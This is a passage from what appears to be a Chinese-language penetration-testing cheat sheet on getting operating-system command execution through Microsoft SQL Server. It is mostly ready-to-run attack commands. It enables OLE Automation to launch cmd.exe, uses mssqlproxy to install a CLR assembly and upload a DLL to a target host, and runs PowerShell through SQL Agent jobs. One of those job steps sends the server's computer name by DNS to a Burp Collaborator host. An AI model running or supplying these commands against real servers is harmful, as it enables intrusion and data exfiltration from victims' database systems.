 ```ps1
# 启用OLE自动化
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure

# 执行命令
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```

```powershell
# https://github.com/blackarrowsec/mssqlproxy/blob/master/mssqlclient.py
python3 mssqlclient.py 'host/username:password@10.10.10.10' -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py 'host/username:password@10.10.10.10' -check -reciclador 'C:\windows\temp\reciclador.dll'
python3 mssqlclient.py 'host/username:password@10.10.10.10' -start -reciclador 'C:\windows\temp\reciclador.dll'
SQL> enable_ole
SQL> upload reciclador.dll C:\windows\temp\reciclador.dll
```

## 代理作业

* 如果未配置代理账户，执行操作时使用**SQL Server代理服务账户**的权限。
* :warning: 需要**sysadmin**或**SQLAgentUserRole**、**SQLAgentReaderRole**和**SQLAgentOperatorRole**角色来创建作业。

### 通过SQL代理作业服务执行命令

```ps1
Invoke-SQLOSCmdAgentJob -Subsystem PowerShell -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell e <base64encodedscript>" -Verbose
Subsystem选项：
–Subsystem CmdExec
-SubSystem PowerShell
–Subsystem VBScript
–Subsystem Jscript
```

```sql
USE msdb; 
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1'; 
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'$name=$env:COMPUTERNAME[10];nslookup "$name.redacted.burpcollaborator.net"', @retry_attempts = 1, @retry_interval = 5 ;
EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; 
EXEC dbo.sp_start_job N'test_powershell_job1';

-- 删除
EXEC dbo.sp_delete_job @job_name = N'test_powershell_job1';
```
